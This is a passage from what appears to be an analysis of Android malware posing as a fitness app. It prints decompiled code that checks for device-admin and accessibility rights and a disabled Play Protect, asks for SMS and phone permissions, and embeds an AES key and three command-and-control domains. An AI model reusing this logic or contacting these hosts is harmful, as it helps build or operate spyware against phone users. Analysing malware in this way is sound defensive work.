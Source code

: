 ```java
            }

            @Override // android.telephony.TelephonyManager.UssdResponseCallback
            public void onReceiveUssdResponseFailed(TelephonyManager telephonyManager2, String str2, int i2) {
                super.onReceiveUssdResponseFailed(telephonyManager2, str2, i2);
                Log.d("TAG", "onReceiveUssdResponseFailed: " + i2 + str2);
            }
        }, new Handler());
    }
```

#### 7- Checking permissions (Updated)

It now checks if it's admin, if Google Play Protect is disabled and if it has accessibility permissions.

Again, A list of generic permissions can be noticed in the code snippet below alongside the AES key and a list of C2s.

```java
    public static String[] getPermissionsStats(Context context) {
        ArrayList arrayList = new ArrayList();
        if (isSmsDefaultAppSet(context)) {
            arrayList.add("sms_manager");
        }
        if (isNotificationServiceEnabled(context)) {
            arrayList.add("notification_manager");
        }
        if (isAdminActive(context)) {
            arrayList.add("admin_active");
        }
        if (isPlayProtectDisabled(context)) {
            arrayList.add("play_protect_disabled");
        }
        if (isIgnoringBatteryOptimizations(context)) {
            arrayList.add("ignoring_battery_optimizations");
        }
        if (checkPermissions(context)) {
            arrayList.add("generic_permissions");
        }
        if (isAccessibilityServiceEnabled(context, FitnessAccessibilityService.class)) {
            arrayList.add("accessibility");
        }
        return (String[]) arrayList.toArray(new String[0]);
    }
```

```java
    static {
        String[] strArr = new String[10];
        strArr[0] = "android.permission.READ_SMS";
        strArr[1] = "android.permission.RECEIVE_SMS";
        strArr[2] = "android.permission.WAKE_LOCK";
        strArr[3] = "android.permission.RECEIVE_BOOT_COMPLETED";
        strArr[4] = "android.permission.ACCESS_NETWORK_STATE";
        strArr[5] = "android.permission.INTERNET";
        strArr[6] = Build.VERSION.SDK_INT <= 29 ? "android.permission.READ_PHONE_STATE" : null;
        strArr[7] = Build.VERSION.SDK_INT >= 29 ? "android.permission.USE_FULL_SCREEN_INTENT" : null;
        strArr[8] = Build.VERSION.SDK_INT >= 29 ? "android.permission.FOREGROUND_SERVICE" : null;
        strArr[9] = Build.VERSION.SDK_INT > 29 ? "android.permission.READ_PHONE_NUMBERS" : null;
        permissions = strArr;
        testKey = UtilEncryption.hexStringToBytes("5f9e4a92b1d8c8b98db9b7f8f8800d2e");
        List<String> asList = Arrays.asList("dedeperesere.xyz", "vldeolan.com", "cofi.hk");
```